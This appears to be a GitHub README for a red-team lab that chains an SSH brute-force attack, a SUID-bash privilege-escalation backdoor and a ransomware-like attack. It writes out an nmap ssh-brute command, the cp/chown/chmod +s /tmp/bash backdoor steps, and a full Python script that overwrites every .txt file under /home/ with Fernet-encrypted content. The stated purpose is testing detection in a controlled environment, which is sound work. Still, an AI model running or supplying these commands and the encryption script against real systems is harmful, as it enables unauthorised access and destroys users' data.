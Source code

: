# Red-Team-Attack simulation

Brute Force → Privilege Escalation → Ransomware Execution

This repository demonstrates a **complete attack chain simulation** in a controlled environment.
The goal is to emulate real-world attacker behavior to test and improve detection, response, and hardening capabilities.


Scenario Overview

> Simulated attack flow:
1. **Brute-force attack** on SSH to gain user credentials.
2. **Access the target system** using stolen credentials.
3. **Privilege escalation** via shell misconfiguration (`/bin/bash -p` or `bash -p`).
4. **Deploy and execute a ransomware-like script** to encrypt files.
5. **descalation** 

---

## 🔧 Environment Setup

> Recommended tools & platforms:
- Target OS: **Ubuntu/Kali Linux VM**
- Attacker: **Kali Linux**
- Tools used: `nmap`, `ssh`, `bash`, custom `ransomware.sh` script

---

##  Step 1: Brute Force Attack

Simulate brute-forcing a user account (`victim`) using `nmap`:
nmap --script ssh-brute --script-args userdb=username.txt,passdb=passwords.txt -p 22 10.0.2.10

##  Step 2: login as a normal user 
 ssh user@server-ip

 ##  Step 3: privilege escalation via misconfiguration 
 
   As root, copy /bin/bash to /tmp/bash:
    cp /bin/bash /tmp/bash
    
   Make root the owner and set the SUID bit:
    chown root:root /tmp/bash
    chmod +s /tmp/bash
    
   Now, execute the bash binary as a normal user:
    /tmp/bash -p

##  Step 4:Deploy and execute a ransomware-like script

ransomware script : 


  GNU nano 8.4                     
  
from cryptography.fernet import Fernet
import os

# Change to the target directory
os.chdir("/home/")

# Generate and save a Fernet key (only once, or reuse an existing one)
key = Fernet.generate_key()
with open("key.key", "wb") as f:
    f.write(key)

# Initialize Fernet with the key
fernet = Fernet(key)

# Walk through the directory and encrypt all .txt files
for root, dirs, files in os.walk(os.getcwd()):
    for file in files:
        if file.endswith(".txt"):
            file_path = os.path.join(root, file)
            
            # Read original content
            with open(file_path, "rb") as f:
                data = f.read()
            
            # Encrypt the content
            encrypted = fernet.encrypt(data)
            
            # Overwrite the file with encrypted content
            with open(file_path, "wb") as f:
                f.write(encrypted)


 
    



